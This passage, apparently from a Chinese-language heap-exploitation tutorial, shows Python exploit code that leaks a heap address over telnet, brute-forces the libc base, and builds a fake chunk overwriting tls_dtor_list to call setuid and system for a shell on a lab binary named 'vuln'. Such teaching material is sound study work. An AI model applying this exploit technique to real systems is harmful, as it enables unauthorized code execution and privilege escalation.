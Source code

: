 ```
 con.write(data)
 return con.read_until('\n')

print "** Bruteforcing libc base address**"
libc_base_addr = 0xb756a000
fd_nextsize = (libc_base_addr - 0x1000) + 0x6c0
system = libc_base_addr + 0x3e6e0
system_arg = 0x80482ae
size = 0x200
setuid = libc_base_addr + 0xb9e30
setuid_arg = 0x0

while True:
 time.sleep(4)
 con = telnetlib.Telnet(ip, port)
 laddress = con.read_until('\n')
 laddress = laddress[8:12]
 heap_addr_tup = struct.unpack("<I", laddress)
 heap_addr = heap_addr_tup[0]
 print "** Leaked heap addresses : [0x%x] **" %(heap_addr)
 heap_base_addr = heap_addr - 0x10
 fd = heap_base_addr + 0x410
 bk = fd
 bk_nextsize = heap_base_addr + 0x618
 mp = heap_base_addr + 0x18
 nxt = heap_base_addr + 0x428

 print "** Constructing fake chunk to overwrite tls_dtor_list**"
 fake_chunk = conv(fd)
 fake_chunk += conv(bk)
 fake_chunk += conv(fd_nextsize)
 fake_chunk += conv(bk_nextsize)
 fake_chunk += conv(system)
 fake_chunk += conv(system_arg)
 fake_chunk += "A" * 484
 fake_chunk += conv(size)
 fake_chunk += conv(setuid)
 fake_chunk += conv(setuid_arg)
 fake_chunk += conv(mp)
 fake_chunk += conv(nxt)
 print "** Successful tls_dtor_list overwrite gives us shell!!**"
 send(fake_chunk)

 try: 
  con.interact()
 except: 
  exit(0)
```

由于在爆破技巧中，我们需要尝试多次（直到成功）。让我们将我们的漏洞二进制`vuln`运行为网络服务器，并使用 Shell 教程来确保崩溃时自动重启：
